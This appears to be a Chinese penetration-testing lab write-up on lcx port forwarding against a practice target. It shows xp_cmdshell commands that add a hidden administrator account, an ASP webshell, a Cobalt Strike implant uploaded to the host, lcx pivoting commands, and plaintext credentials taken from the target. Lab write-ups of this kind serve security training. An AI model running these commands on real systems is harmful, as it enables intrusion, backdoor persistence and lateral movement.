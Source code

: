 ```yaml
---
title: lcx端口转发
date: 2021-09-03 16:39:51
tags:
---
```


## 内网渗透:端口转发

靶场地址

http://192.168.179.75/1.asp



通过fscan扫描得到mssql账号秘密，Navicat链接登录数据库，whoami查看，当前权限为system，创建账号gd13$，密码admin@123，添加到administrator组，通过该账号远程登录，在www目录下写入一句话木马asp，打开kali蚁剑链接



![image-20210831191818764](lcx/image-20210831191818764.png)

fscan 扫描目标ip  

`/home/kali/cs4.2/tools/fscan_amd64 -h 192.168.179.75`

![image-20210831192054560](lcx/image-20210831192054560.png)

![image-20210831194028029](lcx/image-20210831194028029.png)

`exec('xp_cmdshell "whoami"')`

添加用户 gd13$  admin@123 

`exec('xp_cmdshell "net user gd13$ admin@123 /add"')`

![image-20210831202425448](lcx/image-20210831202425448.png)

![image-20210831202530309](lcx/image-20210831202530309.png)

`exec('xp_cmdshell "net localgroup administrators gd13$ /add"')`

`exec('xp_cmdshell "net localgroup administrators"')`

![image-20210831202648860](lcx/image-20210831202648860.png)

![image-20210831203004613](lcx/image-20210831203004613.png)

查看user表 里面有管理员账户名密码，虽然解密成功但是，禁止远程登录

![image-20210831203016345](lcx/image-20210831203016345.png)

admin 	qwer1234!@#$

![image-20210831204542590](lcx/image-20210831204542590.png)

bao  bao123

![image-20210831203215306](lcx/image-20210831203215306.png)

![image-20210831205122155](lcx/image-20210831205122155.png)



kali中打开cs 链接vps服务器

![image-20210903204618071](lcx/image-20210903204618071.png)

![image-20210903204838431](lcx/image-20210903204838431.png)

生成Windows版的远控程序

![image-20210903205111769](lcx/image-20210903205111769.png)

![image-20210903205153499](lcx/image-20210903205153499.png)

使用蚁剑上传远控程序

![image-20210903205420939](lcx/image-20210903205420939.png)

双击远控程序，在cs中查看

![image-20210903210054589](lcx/image-20210903210054589.png)

![image-20210903210314507](lcx/image-20210903210314507.png)

![image-20210903210456317](lcx/image-20210903210456317.png)

`shell C:\www\lcx.exe -tran 3333 192.168.1.107 8080`

![image-20210903211135544](lcx/image-20210903211135544.png)

![image-20210903211948437](lcx/image-20210903211948437.png)



![image-20210903212024618](lcx/image-20210903212024618.png)

转发成功，访问75的3333端口，107的8080端口转发成功



![image-20210903212112116](lcx/image-20210903212112116.png)

![image-20210903212704462](lcx/image-20210903212704462.png)

![image-20210903212729352](lcx/image-20210903212729352.png)

use18

`shell C:\www\lcx.exe -tran 4444 192.168.22.187 4444`

![image-20210903222630836](lcx/image-20210903222630836.png)

![image-20210903223233650](lcx/image-20210903223233650.png)

![image-20210903225319610](lcx/image-20210903225319610.png)

![image-20210903225342838](lcx/image-20210903225342838.png)

设置用户名和密码Tomcat

![image-20210903230024732](lcx/image-20210903230024732.png)

![image-20210903230155364](lcx/image-20210903230155364.png)

